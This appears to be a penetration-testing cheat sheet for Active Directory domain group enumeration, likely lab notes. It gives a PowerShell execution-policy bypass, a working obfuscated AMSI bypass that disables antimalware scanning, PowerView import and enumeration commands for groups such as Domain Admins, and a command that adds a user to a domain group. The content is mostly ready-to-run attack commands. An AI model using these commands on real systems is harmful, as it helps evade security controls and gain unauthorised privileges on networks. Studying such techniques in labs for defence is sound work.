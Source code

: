 # Domain Group Enumeration

Bypass the execution policy and AMSI protection

`powershell -ep bypass`

Bypass AMSI with this PowerShell command.

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

Import the PowerView script

`. .\powerview.ps1`

Get domain groups and members

`Get-DomainGroup`

`Get-DomainGroup -Name "Domain Admins"`

`Get-DomainGroupMember -Name "Domain Admins"`

`Get-DomainGroupMember -Name "Domain Admins" -Recurse`

`Get-DomainGroup -Username "talsonadmin"`

`Get-Domain`

`Get-DomainGroup -Domain domain.local`

Adding a user to a domain group

`Add-DomainGroupMember -Identity 'GROUP1' -Member 'student1' -Domain 'marvel'`

Check the users current state

`net user student1 /domain`

 

